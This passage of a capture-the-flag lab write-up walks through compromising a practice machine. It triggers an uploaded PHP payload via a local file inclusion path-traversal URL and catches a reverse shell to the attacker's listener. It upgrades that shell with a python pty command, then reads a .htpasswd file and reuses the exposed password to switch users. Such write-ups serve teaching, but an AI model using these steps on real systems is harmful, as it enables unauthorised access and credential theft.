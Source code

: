 with a quick google search to find where the payload was uploaded on the target machine, I found that the default TFTP folder is `/var/lib/tftpboot/`. now to execute the payload on the target machine, I went to my browser and navigated to `http://included.htb/?file=../../../var/lib/tftpboot/payload.php` and I established my netcat connection:

```shell
connect to [10.10.16.2] from (UNKNOWN) [10.129.126.111] 35556
Linux included 4.15.0-151-generic #157-Ubuntu SMP Fri Jul 9 23:07:57 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 06:02:40 up 35 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: cannot set terminal process group (1571): Inappropriate ioctl for device
bash: no job control in this shell
www-data@included:/$ 
www-data@included:/$ python3 -c "import pty;pty.spawn('/bin/bash')"
<tml$ python3 -c "import pty;pty.spawn('/bin/bash')"
www-data@included:/$
```

And I got a fully interactive shell, now I need to at least get user privs in order to get the user flag since `www-data` has no permissions for anything, I kept cruising around the file system and evetually found `.htpasswd` file on the web server folder at `/var/www/html`.

```shell
www-data@included:/var/www/html$ ls -la
ls -la
total 88
drwxr-xr-x 4 root     root      4096 Oct 13  2021 .
drwxr-xr-x 3 root     root      4096 Apr 23  2021 ..
-rw-r--r-- 1 www-data www-data   212 Apr 23  2021 .htaccess
-rw-r--r-- 1 www-data www-data    17 Apr 23  2021 .htpasswd
-rw-r--r-- 1 www-data www-data 13828 Apr 29  2014 default.css
drwxr-xr-x 2 www-data www-data  4096 Apr 23  2021 fonts
-rw-r--r-- 1 www-data www-data 20448 Apr 29  2014 fonts.css
-rw-r--r-- 1 www-data www-data  3704 Oct 13  2021 home.php
drwxr-xr-x 2 www-data www-data  4096 Apr 23  2021 images
-rw-r--r-- 1 www-data www-data   145 Oct 13  2021 index.php
-rw-r--r-- 1 www-data www-data 17187 Apr 29  2014 license.txt
www-data@included:/var/www/html$ cat .htpasswd
cat .htpasswd
mike:Sheffield19
```

I got the creditials for the username `mike`, and hopefully he used this password for his user on this linux machine, most people do..

```shell
www-data@included:/var/www/html$ su mike
su mike
Password: Sheffield19

mike@included:/var/www/html$ 
```
